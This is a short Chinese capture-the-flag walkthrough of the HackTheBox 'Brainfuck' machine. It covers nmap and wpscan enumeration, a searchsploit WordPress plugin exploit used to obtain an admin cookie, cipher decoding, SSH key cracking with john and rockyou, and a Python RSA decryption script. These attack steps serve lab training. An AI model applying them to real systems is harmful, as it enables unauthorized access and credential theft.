

#BrainFuck

``` 
nmap -sc -sV -oA nmap/brain 10.10.10.17
```
查看网页证书，得到相关域名


``` 
wpscan https://brainfuck.htb --disable-tls-checks --enumerate u

searchsploit WP Support Plus
```
使用40939.txt文件中的html代码，并修改内容，重新命名并开启本地网页服务  



访问expoit页面，使用burpsuit代理截获请求，得到管理员cookie


使用evolution软件，配置以下参数，最后输入上图得到的密码
``` 
Full Name: orestis
Email Address: orestis@brainfuck.htb

Receiving Email
Server: brainfuck.htb 
Username: orestis

Sending Email
Server: brainfuck.htb
```


将该账号密码用于sup3..域名登录, 查看网页，得到两个密文，进行解密
> rumkin.com/tools/cipher/otp.php  
``` 
a = ord('o')-97
b = ord('p')-97
p在ascii的位置向上移动a个数及解码
```


根据网页中的其他密文，用passphrase解密
> rumkin.com/tools/cipher/vigenere-keyed.php


访问网址，得到rsa，进行解密
``` 
cat id_rsa | xclip
./sshng2john.py /root/id_rsa >/root/brainfuck-crack
./john /root/brainfuck-crack --wordlist=/opt/wordlist/rockyou.txt

ssh -i id_rsa orestis@brainfuck.htb
```
加密货币  
google -> decrypt rsa given p,q,e
``` 
cat debug.txt

vi decrypt.py
>
def egcd(a, b):
    x,y, u,v = 0,1, 1,0
    while a != 0:
        q, r = b//a, b%a
        m, n = x-u*q, y-v*q
        b,a, x,y, u,v = a,r, u,v, m,n
        gcd = b
    return gcd, x, y

def main():

    p = 1090660992520643446103273789680343
    q = 1162435056374824133712043309728653
    e = 65537
    ct = 299604539773691895576847697095098784338054746292313044353582078965

    # compute n
    n = p * q

    # Compute phi(n)
    phi = (p - 1) * (q - 1)

    # Compute modular inverse of e
    gcd, a, b = egcd(e, phi)
    d = a

    print( "n:  " + str(d) );

    # Decrypt ciphertext
    pt = pow(ct, d, n)
    print( "pt: " + str(pt) )

if __name__ == "__main__":
    main()
    

#将解密后的数据，处理
pt = 24604052029401386049980296953784287079059245867880966944246662849341507003750
str(hex(pt)[2:-1]).decode('hex')
```

